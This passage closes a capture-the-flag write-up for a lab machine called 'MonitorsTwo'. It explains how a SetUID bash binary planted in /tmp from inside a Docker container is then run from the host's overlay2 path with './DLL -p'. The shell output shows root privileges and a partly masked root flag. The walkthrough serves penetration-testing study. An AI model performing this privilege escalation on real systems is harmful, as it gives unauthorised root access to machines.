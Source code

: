 **Chmod 4777 /tmp/DLL**: This applies the `SetUID` mode. The `4` in `4777` refers to `SetUID`, which means that when someone executes this file, it will run with the privileges of the owner (which in this case is root). The `777` allows any user to read, write, and execute the file, which is dangerous because anyone with access can execute it with `root` privileges.

Now, we check if it has been created with the correct permissions on the host.

```bash
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp$ ls -la
total 1220
drwxrwxrwt 1 root     root        4096 Feb 27 20:36 .
drwxr-xr-x 1 root     root        4096 Mar 21  2023 ..
-rwsrwxrwx 1 root     root     1234376 Feb 27 20:36 DLL
-rw-r--r-- 1 www-data www-data       0 Feb 27 20:23 lome
-rw------- 1 www-data www-data    1973 Feb 27 19:52 sess_486ff0bc60c346c92db708d210a674e0
-rw------- 1 www-data www-data       0 Mar 22  2023 sess_701eda14407bf2e26718174061c94acc
```

And if it has been created correctly, we proceed to execute it to escalate our privileges to `root`, using the `-p` flag to ensure privileges are retained at all times.

```bash
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp$ ./DLL -p
```

```bash
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp$ ./DLL -p
DLL-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
```

Now we can access the `/root` directory and obtain the `root flag` since we are root.

```bash
DLL-5.1# cd /root
DLL-5.1# ls
cacti  root.txt
DLL-5.1# cat root.txt 
45c15945c8###################
```

And that’s how we obtain both flags!